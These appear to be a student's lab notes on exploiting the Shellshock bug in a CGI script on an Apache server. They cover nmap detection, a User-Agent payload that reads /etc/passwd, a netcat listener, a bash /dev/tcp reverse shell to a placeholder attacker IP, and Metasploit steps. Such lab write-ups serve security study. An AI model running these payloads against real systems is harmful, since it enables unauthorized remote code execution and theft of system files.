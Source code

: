 

 
- perform service detection scan on target to confirm apache running 
- visit the ip in browser 
	- identify CGI script on webpage (look at page source) ![[Pasted image 20230710132143.png]]
	 the cgi script is passing commands in bash you can use this as input vector but before that you need to check if this system is vulnerable to shellshock explotation -> check in nmap 
- Check if system is vulnerable to shellshock: `nmap -sV ip --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" `
	- `--script=http-shellshock`: This option specifies that you want to use the `http-shellshock` script. Shellshock is a vulnerability in the Bash shell that allows remote code execution. The script is designed to detect if the target web server is vulnerable to this specific vulnerability.
	- `--script-args "http-shellshock.uri=/gettime.cgi"`: This argument provides additional parameters to the `http-shellshock` script. In this case, it sets the URI (Uniform Resource Identifier) to `/gettime.cgi`, which is the path of a specific CGI script on the target server. This allows the script to test the vulnerability specifically on that CGI script.
	- go to the browser and visit targetip/cgi link - configure Mozilla with foxyproxy - select Burp so all the traffic is redirected to Burp ![[Pasted image 20230710133011.png]]
- Open up Burb: 
	- go to proxy and make sure intercept is on 
	- make get request to cgi script in browser 
	- send incoming get request in burp to repeater 
		- in repeater get rid of user-agent and replace them with own characters: () {   :;    } ; echo;   echo;  /bin/bash -c 'cat   /etc/passwd'![[Pasted image 20230710133404.png]] ![[Pasted image 20230710133525.png]]
- gain a reverse shell on the target system 
	- set up a listener with netcat: nc -nvlp 1234 
	- open in burp: 'bash -i>&/dev/tcp/your-kali-ip/port-listner 0>&1' ![[Pasted image 20230710141925.png]]
		- - `bash -i`: This starts an interactive Bash shell with the `-i` option, allowing for interactive input/output. the main difference between interactive (`-i`) and non-interactive modes in Bash is the level of interactivity and the availability of certain features within the shell session. Interactive mode provides a more interactive and dynamic shell environment, while non-interactive mode is typically used for running scripts or commands that don't require user interaction.
		- `>&/dev/tcp/your-kali-ip/port-listener`: This redirects both the standard output and standard error streams to a TCP connection established with the specified IP address and port. You need to replace `your-kali-ip` with the actual IP address of your Kali machine, and `port-listener` with the desired port number for the listener.
		- `0>&1`: This redirects the standard input (file descriptor 0) to the standard output (file descriptor 1). `, it means we are redirecting the input of the command to the same place where the output is going.
	- Now you have a reverse shell
		- Run whoami 
		- cat /etc/\*issue 
		- uname -a 

How do we exploit this vulnerability in metasploit? 
- msfconsole 
- search shellshock 
	- we have aux module and exploit module 
	- use exploit and specify the options including path to cgi script 
	- you have meterpreter session 
		- sysinfo s
		- elevate privilege's 
